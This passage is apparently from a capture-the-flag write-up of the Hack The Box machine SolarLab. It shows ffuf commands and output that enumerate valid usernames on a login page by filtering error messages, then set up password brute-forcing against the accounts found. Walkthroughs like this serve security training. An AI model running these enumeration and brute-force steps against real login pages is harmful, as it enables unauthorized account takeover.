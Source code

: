 ```bash
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://report.solarlab.htb:6791/login
 :: Wordlist         : FUZZ: /home/gabri/Desktop/HTB/machines/SolarLab-10.10.11.16/content/users-to-test.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Regexp: User not found.
________________________________________________

claudias                [Status: 200, Size: 2144, Words: 812, Lines: 87, Duration: 64ms]
alexanderk              [Status: 200, Size: 2144, Words: 812, Lines: 87, Duration: 108ms]
blakeb                  [Status: 200, Size: 2144, Words: 812, Lines: 87, Duration: 114ms]
:: Progress: [44/44] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

And I have three valid users! Let's look for their passwords:

```bash
❯ cat web-valid-users.txt
alexanderk
claudias
blakeb
❯ ffuf -w web-valid-users.txt:USER -w passwords.txt:PASSWORD -enc 'PASSWORD:urlencode' -enc 'USER:urlencode' -d 'username=USER&password=PASSWORD' -H "Content-Type: application/x-www-form-urlencoded" -u http://report.solarlab.htb:6791/login -fr 'User authentication error.'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://report.solarlab.htb:6791/login
 :: Wordlist         : USER: /home/gabri/Desktop/HTB/machines/SolarLab-10.10.11.16/content/web-valid-users.txt
 :: Wordlist         : PASSWORD: /home/gabri/Desktop/HTB/machines/SolarLab-10.10.11.16/content/passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USER&password=PASSWORD
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
```